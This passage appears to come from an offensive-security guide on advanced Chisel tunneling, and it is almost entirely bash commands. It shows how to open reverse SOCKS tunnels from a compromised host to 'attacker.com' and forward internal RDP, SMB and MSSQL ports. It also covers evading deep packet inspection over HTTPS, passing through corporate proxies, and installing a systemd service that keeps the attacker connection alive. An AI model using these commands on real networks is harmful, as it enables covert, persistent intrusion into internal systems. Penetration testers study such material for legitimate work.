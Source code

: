 ```bash
```

### **Advanced Chisel Configurations**

```bash
# Chisel with authentication
# Server with user authentication
./chisel server --port 8080 --auth user:password --reverse

# Client with authentication
./chisel client --auth user:password attacker.com:8080 R:1080:socks

# Chisel over HTTPS (bypasses deep packet inspection)
# Generate SSL certificates
openssl req -x509 -newkey rsa:4096 -keyout server.key -out server.cert -days 365 -nodes

# HTTPS server
./chisel server --port 443 --key server.key --cert server.cert --reverse

# HTTPS client (bypass certificate validation)
./chisel client --skip-verify attacker.com:443 R:1080:socks

# Multiple tunnels through single Chisel connection
./chisel client attacker.com:8080 R:3389:192.168.1.100:3389 R:445:192.168.1.101:445 R:1433:192.168.1.102:1433
# Multiple services through one tunnel

# Chisel through HTTP proxy
./chisel client --proxy http://proxy.company.com:8080 attacker.com:80 R:1080:socks
# Client connects through corporate HTTP proxy

# Persistent Chisel connections
# Using systemd (Linux)
cat > /etc/systemd/system/chisel.service << 'EOF'
[Unit]
Description=Chisel Client
After=network.target

[Service]
Type=simple
User=chisel
ExecStart=/usr/local/bin/chisel client attacker.com:8080 R:1080:socks
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
EOF
systemctl enable chisel.service
systemctl start chisel.service

# Using Windows Service (Windows)
# Create Windows service wrapper for persistent connections

# Chisel performance optimization
./chisel server --port 8080 --reverse --keepalive 30s
# Keep connections alive in unstable networks

./chisel client --keepalive 30s --max-retry-count 5 attacker.com:8080 R:1080:socks
# Client-side connection resilience

# Why advanced Chisel configurations are important:
# - Authentication prevents unauthorized access
```